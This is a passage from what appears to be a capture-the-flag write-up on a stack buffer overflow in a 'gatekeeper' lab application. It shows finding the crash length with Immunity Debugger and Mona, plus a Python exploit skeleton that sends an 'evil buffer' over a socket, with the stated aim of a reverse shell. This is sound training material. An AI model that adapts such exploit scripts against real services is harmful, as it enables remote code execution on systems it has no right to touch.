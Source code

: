 We can see our connection, and the first response. Then a second connection which shows it failed to send a response. Looking in Immunity we see there is an access violation, and the app is paused:

![gatekeeper-app-paused](/assets/images/2021-03-16-22-53-01.png)

So it looks like 200 bytes is enough to cause an overflow. Let's create a unique pattern using Mona, so we can find the exact number required:

```text
!mona pattern_create 200
```

A file called pattern.txt will be created with our pattern, open it and copy the line of characters under the ASCII heading:

![gatekeeper-pattern](/assets/images/2021-03-16-22-57-06.png)

Restart the gatekeeper app in Immunity, make sure you press F9 so it's running.

## Finding Overflow Value

Now we need to create script to exploit the overflow and try to get ourselves a reverse shell. Here's one I've used before:

```text
import socket

ip = "192.168.0.11"
port = 31337

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload ="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab <SNIP>"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```
